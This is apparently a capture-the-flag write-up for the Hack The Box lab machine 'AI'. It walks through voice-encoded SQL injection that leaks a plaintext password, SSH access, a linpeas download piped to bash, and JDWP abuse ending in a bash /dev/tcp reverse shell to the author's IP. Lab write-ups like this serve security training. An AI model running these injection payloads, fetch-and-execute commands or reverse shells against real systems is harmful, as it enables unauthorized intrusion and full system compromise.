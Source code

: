 # AI

This is the write-up for the box AI that got retired at the 25th January 2020.
My IP address was 10.10.14.9 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.163    ai.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/ai.nmap 10.10.10.163
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 6d:16:f4:32:eb:46:ca:37:04:d2:a5:aa:74:ed:ab:fc (RSA)
|   256 78:29:78:d9:f5:43:d1:cf:a0:03:55:b1:da:9e:51:b6 (ECDSA)
|_  256 85:2e:7d:66:30:a6:6e:30:04:82:c1:ae:ba:a4:99:bd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Hello AI!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The web pages homepage is on _index.php_ and it shows **Artificial Intelligence**.
On the left side is a menu and the _"About page"_ says the following:
```
We are working on search engine using voice recognition from audio files using Artificial intelligence.
Our developers working 24/7 to make it happen and we progressed well with audio conversion.
```

This AI can be found on the menu that forwards to _ai.php_ and allows to upload and process _wav_ files:

![Upload wav file](https://kyuu-ji.github.io/htb-write-up/ai/ai_web-1.png)

After uploading a PHP file, it seems to not get blocked, but does not show any output:
```
Our understanding of your input is :
Query result :
```

Lets search for hidden directories and PHP files with **Gobuster**:
```
gobuster -u http://10.10.10.163 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

It finds the following directories and PHP files:
- _/uploads_ (403 Forbidden)
- _/db.php_
  - Blank page
- _/intelligence.php_
  - Shows how the Speech Recognition API processes user input:

![Speech Recognition API process](https://kyuu-ji.github.io/htb-write-up/ai/ai_web-2.png)

These look like aliases for words and as it expects audio _wav_ files, it could be possible to execute code by sending words via a **Text-to-Speech** program.

The package **Festival** has a command **text2wave** that I will use for this:
```
apt install festival

echo "hello" | text2wave -o hello.wav
```

This wave file can be listened to with any audio program and it says _"hello"_.
After uploading it to the AI, it understood it and shows the output of it:
```
Our understanding of your input is : hello
Query result :
```

Testing one of the queries:
```
echo "Say hi python" | text2wave -o test1.wav
```
```
Our understanding of your input is : say hi python
Query result : print("hi")
```

Testing special characters like single quotes:
```
echo "open single quote" | text2wave -o sqli.wav
```
```
Our understanding of your input is : '
Query result : You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1
```

It processed the single quote and shows a SQL error, so lets use that for **SQL Injection**.

### SQL Injection with Wave File

Testing for **Union SQL Injection**:
```
echo "open single quote, union select, version open parenthesis close parenthesis hyphen hyphen, space hyphen" | text2wave -o sqli.wav
```
```
Our understanding of your input is : 'you can select version()- - -
Query result : You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'you can select version()- - -'' at line 1
```

It did not fully understand the _union_ statement, but the queries showed that it can be translated with _"join"_.
Also the comment for databases was not understood, but it can be translated with _"Comment Database"_.
```
echo "open single quote, join select, version open parenthesis close parenthesis Comment Database" | text2wave -o sqli.wav
```
```
Our understanding of your input is : 'union select version()-- -
Query result : 5.7.27-0ubuntu0.18.04.1
```

It understood the query and displays the version of the database.

Enumerating usernames by guessing tables:
```
echo "open single quote, join, select, username from users Comment Database" | text2wave -o sqli.wav
```
```
Our understanding of your input is : 'union select username from users -- -
Query result : alexa
```

Getting the password of _alexa_:
```
echo "open single quote, join, select, password from users Comment Database" | text2wave -o sqli.wav
```
```
Our understanding of your input is : 'union select password from users -- -
Query result : H,Sq9t6}a<)?q93_
```

It looks like a plaintext password and not a hash and the credentials work on SSH:
```
ssh alexa@10.10.10.163
```

## Privilege Escalation

To get an attack surface, it is recommended to run any **Linux Enumeration Script**:
```
curl 10.10.14.9/linpeas.sh | bash
```

On localhost port 8000, 8005, 8009 and 8080 runs **JDWP (Java Debug Wire Protocol)** and **Tomcat** as root.

Port forwarding the ports to get access to the services:
```
ssh -L 8009:127.0.0.1:8009 -L 8080:127.0.0.1:8080 -L 8005:127.0.0.1:8005 alexa@10.10.10.163
```

Forwarding port 8000 with the [SSH control sequences](https://www.sans.org/blog/using-the-ssh-konami-code-ssh-control-sequences/) as it did not work with SSH directly:
```
ssh> -L8000:127.0.0.1:8000

Forwarding port.
```

Now it is possible to connect to **JDWP** from our local client:
```
jdb -attach 8000
```

The command `classes` shows all available classes and we want to execute _java.lang.Runtime exec_.
First it has to be attached to a running thread and these can be found with the `threads` command and `trace go method` command.

Setting a breakpoint at any thread:
```
stop in java.lang.String.indexOf(int)
```

Testing if it works by creating a file:
```
print new java.lang.Runtime().exec("/bin/touch /tmp/Test.txt")
```

This creates the file with root as the owner, but as it takes many tries and is inconsistent, it is easier to exploit it with the tool [jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier).

Creating a bash file on the box that executes a reverse shell connection:
```
bash -c 'bash -i >& /dev/tcp/10.10.14.9/9001 0>&1'
```
```
chmod +x shell.sh
```

Executing _shell.sh_ with **jdwp-shellifier**:
```
python jdwp-shellifier.py -t 127.0.0.1 --break-on "java.lang.String.indexOf" --cmd "bash /tmp/shell.sh"
```

After executing, the listener on my IP and port 9001 starts a reverse shell session as root!
